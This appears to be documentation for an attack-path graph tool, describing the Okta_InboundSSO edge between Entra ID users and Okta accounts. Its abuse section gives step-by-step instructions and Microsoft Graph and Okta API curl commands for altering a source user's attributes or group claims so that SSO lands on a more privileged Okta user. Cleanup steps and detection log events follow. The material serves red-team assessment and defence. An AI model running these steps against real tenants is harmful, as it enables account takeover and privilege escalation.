

## General Information

The traversable Okta_InboundSSO edges represent single sign-on from an external identity into an Okta user. OpenHound emits this edge for Microsoft-backed SAML IdP users when the linked external ID can be matched to an external user node:



The edge means the source external user can authenticate through the inbound IdP trust and become the destination Okta user, subject to Okta's account link policy, IdP subject mapping, sign-on policy, and MFA requirements.

## Abuse Info

An attacker who controls the source external user can sign in to Okta as the destination Okta user when the inbound IdP trust maps that external identity to the Okta account. If the attacker controls the source tenant administratively, they can also modify the external user's attributes or group claims so Okta links to a more privileged destination user or grants IdP-driven Okta group membership.

For Microsoft Entra ID-backed SAML IdPs, the source user authenticates in Entra ID and Okta consumes the SAML assertion. The assertion subject, NameID, immutable ID, email, username, and group claims must match the Okta IdP configuration.

Using the source tenant and Okta sign-in flow:

1. Obtain credentials, session access, or administrative control for the source external user.
2. Identify the Okta IdP used for inbound SSO and the destination Okta user linked to the external user.
3. If you control the source tenant, adjust the source user's attributes or group memberships to satisfy the IdP subject mapping and any `Okta_IdpGroupAssignment` path.
4. Start an Okta sign-in flow that routes to the external IdP, or start IdP-initiated SSO from the external tenant.
5. Authenticate as the source external user.
6. Let Okta consume the SAML/OIDC response and map it to the destination Okta user.
7. Use the resulting Okta session to access applications, Admin Console features, or downstream SSO paths available to the destination user.

Using Microsoft Graph and the Okta API:

1. Set variables for the source Entra user, optional Entra group claim, Okta IdP, and destination Okta user.

    ```bash
    export ENTRA_ACCESS_TOKEN="REDACTED_GRAPH_TOKEN"
    export ENTRA_USER_ID="00000000-0000-0000-0000-000000000000"
    export ENTRA_GROUP_ID="11111111-1111-1111-1111-111111111111"
    export TEMP_DEPARTMENT="Finance"
    export ORIGINAL_DEPARTMENT="Engineering"
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export IDP_ID="0oa..."
    export DEST_OKTA_USER_ID="00u..."
    ```

2. Verify the Okta IdP and confirm the linked external ID for the destination user.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/idps/$IDP_ID" \
      | jq '{id, type, name, status, sso: .protocol.endpoints.sso.url, subject: .policy.subject, accountLink: .policy.accountLink}'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/idps/$IDP_ID/users?limit=200&expand=user" \
      | jq -r '.[] | select(.id == env.DEST_OKTA_USER_ID) | [.id, .externalId, .profile.email, .profile.subjectNameId] | @tsv'
    ```

3. If the abuse path depends on an Entra-sourced attribute, update the source user. Only change attributes that the Okta IdP actually maps or trusts.

    ```bash
    curl -i -sS -X PATCH \
      -H "Authorization: Bearer $ENTRA_ACCESS_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"department\":\"$TEMP_DEPARTMENT\"}" \
      "https://graph.microsoft.com/v1.0/users/$ENTRA_USER_ID"
    ```

4. If the abuse path depends on a group claim, add the source user to the Entra group that the IdP emits or maps.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: Bearer $ENTRA_ACCESS_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"@odata.id\":\"https://graph.microsoft.com/v1.0/directoryObjects/$ENTRA_USER_ID\"}" \
      "https://graph.microsoft.com/v1.0/groups/$ENTRA_GROUP_ID/members/\$ref"
    ```

    A successful Microsoft Graph group-membership add returns `204 No Content`.

5. Complete the Okta browser sign-in flow through the source IdP as the source external user. Okta session creation is interactive; the APIs above prepare and verify the mapping but do not create the browser session.

6. Verify the destination Okta user state after authentication.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID" \
      | jq '{id, status, lastLogin, login: .profile.login, email: .profile.email, department: .profile.department}'
    ```

7. Enumerate the destination user's Okta groups to identify new group assignments from the inbound login.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID/groups" \
      | jq -r '.[] | [.id, .type, .profile.name] | @tsv'
    ```

## Cleanup after Abuse

Cleanup for `Okta_InboundSSO` means restoring the source external user's attributes and group claims, removing unintended Okta links or group memberships created by the inbound login, and revoking the destination user's Okta sessions.

Cleanup using Admin Console:

1. Restore the source external user's original attributes and group memberships in the external tenant.
2. Restore any temporary claim transformation, signing, or enterprise application changes in the source IdP.
3. In Okta, open **Security** > **Identity Providers** and unlink unintended account links or restore the correct external ID.
4. Remove temporary Okta group memberships created by `Okta_IdpGroupAssignment`.
5. Delete any JIT-provisioned Okta user created only for the operation.
6. Revoke the destination user's Okta sessions and downstream app sessions.

Cleanup using API:

1. Restore the source Entra user attribute.

    ```bash
    curl -i -sS -X PATCH \
      -H "Authorization: Bearer $ENTRA_ACCESS_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"department\":\"$ORIGINAL_DEPARTMENT\"}" \
      "https://graph.microsoft.com/v1.0/users/$ENTRA_USER_ID"
    ```

2. Remove the source user from the temporary Entra group claim if one was added.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: Bearer $ENTRA_ACCESS_TOKEN" \
      -H "Accept: application/json" \
      "https://graph.microsoft.com/v1.0/groups/$ENTRA_GROUP_ID/members/$ENTRA_USER_ID/\$ref"
    ```

    A successful removal returns `204 No Content`.

3. Unlink the destination Okta user from the IdP if the link was changed or should be forced through account linking again.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/idps/$IDP_ID/users/$DEST_OKTA_USER_ID"
    ```

4. Remove temporary Okta group membership if the inbound login added one.

    ```bash
    export TEMP_OKTA_GROUP_ID="00g..."

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TEMP_OKTA_GROUP_ID/users/$DEST_OKTA_USER_ID"
    ```

5. Revoke Okta sessions and OAuth tokens for the destination user.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID/sessions?oauthTokens=true"
    ```

6. Verify the destination user's profile and group state.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID" \
      | jq '{id, status, login: .profile.login, email: .profile.email, department: .profile.department}'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID/groups" \
      | jq -r '.[] | [.id, .type, .profile.name] | @tsv'
    ```

## Opsec Considerations

Inbound SSO abuse leaves logs in both Okta and the source tenant. Okta events can include `user.authentication.auth_via_IDP`, `user.authentication.auth_via_inbound_SAML`, `user.session.start`, `policy.evaluate_sign_on`, `group.user_membership.add`, and IdP lifecycle events if configuration was changed.

Microsoft Entra ID records sign-ins, audit log entries for user or group changes, and enterprise application changes. A source user change or Entra group membership change followed by a privileged Okta session is a strong cross-system detection.

## References

- [Okta Identity Providers API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/IdentityProvider/)
- [Okta Enterprise Identity Provider guide](https://developer.okta.com/docs/guides/add-an-external-idp/openidconnect/main/)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Microsoft Graph: Update user](https://learn.microsoft.com/en-us/graph/api/user-update)
- [Microsoft Graph: Add group members](https://learn.microsoft.com/en-us/graph/api/group-post-members)
- [Microsoft Graph: Remove group member](https://learn.microsoft.com/en-us/graph/api/group-delete-members)
- [Adam Chester: Identity Providers for RedTeamers](https://blog.xpnsec.com/identity-providers-redteamers/)
